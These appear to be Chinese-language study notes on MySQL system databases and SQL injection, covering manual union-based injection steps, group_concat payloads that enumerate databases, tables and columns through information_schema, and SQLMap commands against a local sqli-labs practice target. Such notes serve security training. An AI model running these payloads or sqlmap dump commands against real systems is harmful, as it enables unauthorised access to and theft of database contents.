



# information_schema库
information_schema中有三个比较重要的表
## schemata表：所有数据库名称，信息



- schema_name 保存当前数据库中数据库的名称
## tables表：所有表的信息



- table_name   保存当前数据库所有表的名称
- table_schema 保存了数据库名称
## columns表： 所有字段信息



- column_name字段 保存当前数据库所有字段的名称
- table_name
# performance_schema库
主要收集数据库服务器性能参数。
# mysql库

主要负责储存数据库中的用户信息，权限设置，关键字等
mysql库中存在4个控制权限的表，分别为users，db，tables_priv, columns_priv
常用举例：在mysql.user表中修改root用户的密码	

# sys库
可以查询谁使用了更多的资源，那张表访问最多。
# 手工注入

1. 判断是否有注入点
   1. 输入内容之后报错有注入点
   2. 没报错没注入点，因为输入的内容被执行才会报错
2. 拆解字段数量   order by
3. 通过报错，判断回显点
   1. 使用union，且union前的查询语句是否正确并不影响union后的查询语句是否能成功执行
4. 信息收集
   1. 数据库版本  version()
      1. 高版本5.0以上
         1. 有系统库
      2. 低版本5.0以下
         1. 没有系统库
   2. 数据库的名称database()
5. 使用对应的SQL语句进行注入
   1. 爆破数据库名
      1. select 1,2,group_concat(schema_name) from information_schema.schemata  
   2. 爆破表名
      1. select1,2,group_concat(table_name) from information_schema.tables where table_schema=database();  
   3. 爆破字段名
      1. select 1,2,group_concat(column_name)from information_schema.columns where table_name='users';--+  
# 数据提交方式

- GET：通过URl进行数据传递	
   - 场景：数据不敏感
   - 特点：安全性不高，传输速度快，长度有限2kb。
- POST：直接传递給服务器	
   - 场景：表单的提交，用于登录框的注入
   - 特点：安全性高，长度不限，速度不快
- Cookie:Cookie  注入可以绕过一些常规防御手段
# 
# SQLMap使用
## GET型注入 
### 判断是否存在注入
假设目标注入点是 `http://127.0.0.1/sqli-labs/Less-1/?id=1`，判断其是否存在注入的命令如下：

```
sqlmap.py -u http://127.0.0.1/sqli-labs/Less-1/?id=1
```

当注入点后面的参数大于等于两个时,需要加双引号，如下所示。

```
sqlmap.py -u "http://127.0.0.1/sqli-labs/Less-1/?id=1&uid=2"
```

运行完判断是否存在注入的语句后，爆出一大段代码，这里有三处需要选择的地方：第一处的意思为检测到数据库可能是MySQL，是否需要跳过检测其他数据库；第二处的意思是在“level1、risk1”的情况下，是否使用MySQL对应的所有Payload进行检测；第三处的意思是参数 `id`存在漏洞，是否要继续检测其他参数，一般默认按回车键即可。
常用命令：
```

-u:用于get提交方式，后面跟注入的url网址
--level
--risk

--dbs：获取所有数据库
--tales：获取所有数据表
--columns：获取所有字段
--dump：打印数据

-D：查询选择某个库
-T：查询选择某个表
-C：查询选择某个字段
level：执行测试的等级（1~5，默认为1），使用-level参数并且数值>=2的时候会检查cookie里面的参数，
	当>=3时检查user-agent和refereer
          risk：执行测试的风险（0~3,默认为1），默认是1会测试大部分的测试语句，2会增加基于事件的测试语句，
	3会增加or语句的sql注入
```
